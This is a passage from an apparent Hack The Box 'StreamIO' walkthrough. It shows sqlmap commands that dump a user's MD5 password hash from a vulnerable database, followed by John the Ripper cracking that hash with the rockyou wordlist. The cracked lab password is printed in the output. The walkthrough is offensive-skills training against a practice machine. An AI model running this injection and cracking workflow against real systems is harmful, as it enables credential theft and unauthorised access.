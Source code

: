 Ok, so if you want to spend a long time watching SQLMap dump all users and passwords from the table then go for it:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req --dump -D STREAMIO -T users
```

If you want to just get the username and password we're interested in then use a where clause to speed it up:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req --dump -D STREAMIO -T users -C username,password --where "id=31" --force-pivoting
[*] starting @ 22:08:54 /2022-06-27/
[22:09:18] [INFO] adjusting time delay to 1 second due to good response times
b779ba15cedfd22a023c4d8bcf5f2332                  
[22:13:48] [INFO] retrieved: yoshihide                                         
Database: STREAMIO
Table: users
[1 entry]
+----------------------------------------------------+----------------------------------------------------+
| username                                           | password                                           |
+----------------------------------------------------+----------------------------------------------------+
| yoshihide                                          | b779ba15cedfd22a023c4d8bcf5f2332                   |
+----------------------------------------------------+----------------------------------------------------+
[*] ending @ 22:19:30 /2022-06-27/
```

Note, for me yoshihide was id number 31, it might be different for you just try and adjust id number if necessary.

## Crack Yoshihide Hash

With the password hash we can crack using JohnTheRipper:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# echo "b779ba15cedfd22a023c4d8bcf5f2332" > hash.txt

┌──(root㉿kali)-[~/htb/streamio]
└─# john hash.txt --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
66boysandgirls.. (?)     
1g 0:00:00:01 DONE (2022-06-27 22:26) 0.8771g/s 10524Kp/s 10524Kc/s 10524KC/s 66che18bur17den..6698907
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
